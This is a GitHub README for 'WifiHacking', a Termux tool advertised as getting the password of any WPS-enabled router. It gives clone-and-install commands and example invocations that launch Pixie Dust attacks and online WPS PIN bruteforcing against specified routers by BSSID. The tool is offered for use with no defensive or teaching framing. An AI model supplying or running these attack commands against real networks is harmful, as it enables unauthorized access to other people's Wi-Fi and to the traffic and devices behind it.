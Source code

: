 # WifiHacking
A termux tool to get password of any WPS enabled router.

## Wifi_Hacking
### Hack WIfi Using Termux! (Requires Root)


### Installation :

```bash
$ git clone https://github.com/paran360/WifiHacking
$ cd WifiHacking
$ python installer.py
```

#### Example : `sudo python wifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

